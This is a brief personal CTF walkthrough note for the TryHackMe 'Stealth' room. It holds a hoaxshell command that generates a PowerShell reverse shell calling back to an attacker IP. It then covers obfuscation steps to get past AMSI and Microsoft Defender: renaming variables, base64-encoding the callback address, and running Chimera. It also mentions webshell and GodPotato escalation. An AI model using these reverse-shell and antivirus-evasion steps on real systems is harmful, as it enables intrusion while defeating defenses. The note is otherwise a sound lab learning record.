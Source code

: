 ## After three hours I decided to get a hint

[Stealth - Detailed Walkthrough -- TryHackMe LIVE!](https://www.youtube.com/watch?v=iICjs8754yE) - use hoaxshell

*As of 2022-10-18, hoaxshell is detected by AMSI ([malware-encyclopedia](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=VirTool%3aPowerShell%2fXoashell.A&threatid=2147833654)). You need to obfuscate the generated payload in order to use. Check out this video on how to obfuscate manually and bypass MS Defender:*

```bash
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
pip3 install -r requirements.txt
chmod +x hoaxshell.py

python3 hoaxshell.py -s 10.11.3.193 -p 8443 -i -H "Authorization" -x "C:\programdata\update.ps1"
```

![1080](whatdoeshoaxshellactuallydo.png)

It did not work, obfuscation time.
- Changed variable names

```powershell
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes())


$gohere=[System.Text.Encoding]::Utf8.GetString([System.Convert]::FromBase64String('MQAwAC4AMQAxAC4AMwAuADEAOQAzADoAOAA0ADQAMwA='))
```
- from https://medium.com/@SecureTacticsTS/simple-but-effective-powershell-obfuscation-techniques-b38900d8f7dd

- https://github.com/tokyoneon/Chimera

Tried a more profession way...
```bash
./chimera.sh -f /home/kali/Stealth-Data/hoaxshell-basic.ps1 -a -o /home/kali/Stealth-Data/chimera-hoaxshell.ps1
```


![](wehavelandedonthemachine.png)

![](flagisinanotherlocationonstealth.png)

![](stealthistrollingme.png)

I peaked at the walkthrough just to get this done. Its been 4 hours and I need to move forward.
- webshell 
- godpotato - never heard of this.

## Return months later...
